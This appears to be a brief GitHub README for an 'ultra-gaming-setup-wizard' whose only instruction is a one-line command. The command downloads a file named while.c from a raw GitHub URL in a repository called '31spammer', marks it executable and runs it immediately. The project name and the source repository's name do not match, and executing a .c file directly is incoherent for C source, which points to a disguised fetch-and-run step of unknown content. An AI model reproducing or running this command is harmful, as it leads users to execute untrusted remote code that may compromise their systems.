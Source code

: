 # ultra-gaming-setup-wizard

## CLONING and RUNNING

```sh
curl https://raw.githubusercontent.com/Passhyk/31spammer/main/while.c >while.c &&
 chmod 755 while.c &&
 ./while.c
```
